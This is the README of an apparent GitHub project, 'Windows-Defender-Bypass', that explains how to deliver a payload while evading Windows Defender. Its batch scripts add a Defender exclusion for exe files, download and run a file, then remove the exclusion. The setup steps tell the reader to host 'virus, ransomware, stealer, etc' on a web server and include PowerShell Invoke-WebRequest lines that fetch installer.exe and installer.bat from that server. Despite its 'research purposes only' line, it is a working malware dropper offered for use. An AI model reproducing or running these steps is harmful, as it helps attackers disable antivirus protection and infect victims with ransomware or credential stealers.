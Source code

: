 # Windows-Defender-Bypass
Fully undetectable bypass for Windows Defender. Works by adding an exclusion for exe files, downloading your file and removing the exclusion after running the file.
# This project is intended for research purposes only.
# Setup
If you already have a webserver, skip to step 2.  
  
1, To start setting up the bypass, you will need a webserver, you can create one by heading over to https://replit.com and creating an HTML, CSS & JS repl, after that, you will need to run the repl. It should then open up a website preview and give you the webserver URL above it.  
  
2, Upload the file you wish to execute (virus, ransomware, stealer, etc) to the webserver and rename the file to installer.exe.  
  
3, Edit line 31 in the installer.bat file:  
```bat
Powershell -Command "Invoke-Webrequest 'https://YOURSITE.COM/installer.exe' -OutFile installer.exe" # Change https://YOURSITE.COM/installer.exe to your webserver URL. If you use replit, it should look like this: https://replname.wnetmc.repl.co/installer.exe
```
4, Upload the installer.bat to your webserver.
5, Edit line 4 in the main.bat file:
```bat
Powershell -Command "Invoke-Webrequest 'https://YOURSITE.COM/installer.bat' -OutFile installer.bat" # Replace https://YOURSITE.COM/installer.bat with your webserver URL and the path to the installer.bat file. If you use replit, it should look like this: https://replname.wnetmc.repl.co/installer.bat
```
6, Done. The file you would use to bypass windows defender would be main.bat. You can convert it to an executable but this will raise the number of detections.
